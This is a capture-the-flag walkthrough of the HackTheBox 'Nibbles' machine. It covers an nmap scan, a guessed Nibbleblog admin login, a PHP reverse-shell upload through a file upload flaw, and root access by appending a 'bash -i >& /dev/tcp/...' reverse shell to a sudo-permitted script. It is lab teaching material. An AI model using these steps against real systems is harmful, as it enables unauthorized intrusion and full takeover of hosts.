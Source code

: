 ```yaml
---
title: Nibbles - HackTheBox Walkthrough
date: 2021-10-18 12:00:00 
categories: [HackTheBox,Linux]
tags: [sudo]
img_path: /assets/img/HTB/Nibbles/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Nibbles` a machine by HackTheBox rated easy. Without further ado, let’s begin.

# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.
```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Fri Oct  8 19:28:34 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.232.219
Increasing send delay for 10.129.232.219 from 0 to 5 due to 56 out of 185 dropped probes since last increase.
Nmap scan report for 10.129.232.219
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct  8 19:29:10 2021 -- 1 IP address (1 host up) scanned in 35.66 seconds
```

Two ports are open 22 and 80 running SSH and HTTP.

## HTTP Enumeration

![01-web](01-web.png)

On the web site just there a message: 'Hello World!', but the interesting thing is a comment on the source code showing a directory `/nibbleblog`.

![02-nibbles](02-nibbles.png)

Seems this site is powered by [Nibbleblog](https://github.com/dignajar/nibbleblog)

![03-vulns](03-vulns.png)

And is vulnerable to an Arbitrary File Upload but for this we need credentials.
The login page is on `/admin.php`, I tried 'admin/admin', 'admin/password' and 'admin/machine's name' in this case is `nibbles`.

User| Password
-|-
admin| nibbles

![04-access](04-access.png)

# Initial Foothold

We can find a reverse shell on `/usr/share/webshells/php/php-reverse-.shell.php`, let´s configure our php reverse shell changing the ip and our listener port, once it's done just upload the file.

![05-php](05-php.png)

Start a netcat listener on port 443, and click on `image.php` to get a shell.

![06-image](06-image.png)

For a interactive shell run this commands:

```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
$   ^Z
$ stty raw -echo;fg
$	reset
$ export TERM=xterm
$ export SHELL=bash
```

In nibbler's home directory there a zip file.

![07-ls](07-ls.png)

# Privilage Escalation

When we unzip this file it create `personal/stuff/monitor.sh` script.

![08-zip](08-zip.png)

`sudo -l` show us that we can execute this script as the user root without password.

![09-sudo](09-sudo.png)

As we are the owners of this file we can insert a reverse shell into it.

```console
$ echo '#!/bin/bash' > monitor.sh
$ echo 'bash -i >& /dev/tcp/10.10.14.39/443 0>&1' >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh
```

![10-script](10-script.png)

Just need a netcat listener on port 443 to get the shell.

![11-root](11-root.png)

Now we can read the flag.
That’s it for now guys. Until next time.
